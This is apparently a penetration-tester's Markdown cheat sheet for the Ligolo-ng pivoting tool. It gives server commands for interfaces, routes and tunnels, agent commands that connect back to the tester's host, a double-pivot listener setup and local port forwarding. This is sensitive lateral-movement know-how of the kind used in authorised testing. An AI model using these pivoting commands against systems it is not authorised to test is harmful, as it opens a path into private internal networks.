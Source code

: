 ## Ligolo
https://docs.ligolo.ng/

### Server side
```bash
# Start ligolo server
sudo ligolo-ng -selfcert
# Create interface
ligolo-ng » ifcreate --name "interface_name"
ligolo-ng » iflist
ligolo-ng » ifdel --name "interface_name"
# Route
ligolo-ng » route_add --name "interface_name" --route network_addr/cidr
ligolo-ng » route_list
ligolo-ng » route_del --name "interface_name" --route network_addr/cidr
# Start pivot
ligolo-ng » start --tun "interface_name"
```

### Client side
```bash
agent.exe -connect tun0:11601 -ignore-cert
./agent -connect tun0:11601 -ignore-cert
```

### Double pivot
https://docs.ligolo.ng/sample/double/
After setup the first pivot, we can set a listenner below, the agent will listen on 4444/tcp
```bash
# Listener on agent 1
ligolo-ng » listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:11601
ligolo-ng » listener_list
# After 
ligolo-ng » ifcreate --name "interface_name"
ligolo-ng » route_add --name "interface_name" --route network_addr/cidr
ligolo-ng » start --tun "interface_name"
```

### Forwarding local port
```bash
# After received call back brom target
ligolo-ng » ifcreate --name "local"
ligolo-ng » route_add --name "local" --route 240.0.0.1/32
ligolo-ng » start --tun "local"
```
